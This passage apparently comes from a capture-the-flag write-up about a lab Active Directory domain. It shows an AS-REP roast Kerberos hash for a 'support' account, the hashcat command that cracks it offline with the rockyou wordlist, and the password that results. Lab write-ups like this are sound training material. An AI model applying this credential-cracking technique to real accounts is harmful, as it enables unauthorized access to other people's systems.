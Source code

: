![](assets/2022-05-02_16-10.png)

```
$krb5asrep$23$support@BLACKFIELD.LOCAL:ceb3f30518daf012e271a1b591980bb8$aab7c8abd49fff00e66219fa1c00f1fae02ddd80538d2cf083c783decbb4b6eab920e380c0b0821ef4d622557a77b7b015aa826b3be74ed65d7578a0e5dc520289b1e554480f60a8f0a6b077b35d1eac6e12034822399d033c8e9a750b9802ae2ad878571a33e76ded1f77eac72e597e5987105b97b286d2fda2783f699e30c4cf522147596ec939791553f5902682292a140c8ab90bc306efcbe04255addf2ab1229236ca64286a4ca6c6669ed6c52fb9d627a673fff4d04b1eaf8a69726f5274ce395574d9e77704082c0b9c4de01b932453063ced86f10591424dff369f44e160f58c35e2814622cd629ed80a87f11b0ba5a3
```

I gave the result to hashcat with the rockyou password list and successfully recovered the password `#00^BlackKnight`

```
hashcat -m 18200 -a 0 '$krb5asrep$23$support@BLACKFIELD.LOCAL:ceb3f30518daf012e271a1b591980bb8$aab7c8abd49fff00e66219fa1c00f1fae02ddd80538d2cf083c783decbb4b6eab920e380c0b0821ef4d622557a77b7b015aa826b3be74ed65d7578a0e5dc520289b1e554480f60a8f0a6b077b35d1eac6e12034822399d033c8e9a750b9802ae2ad878571a33e76ded1f77eac72e597e5987105b97b286d2fda2783f699e30c4cf522147596ec939791553f5902682292a140c8ab90bc306efcbe04255addf2ab1229236ca64286a4ca6c6669ed6c52fb9d627a673fff4d04b1eaf8a69726f5274ce395574d9e77704082c0b9c4de01b932453063ced86f10591424dff369f44e160f58c35e2814622cd629ed80a87f11b0ba5a3' ~/tools/custom-wordlists/rockyou.txt --force
```

![](assets/2022-05-02_16-48.png)
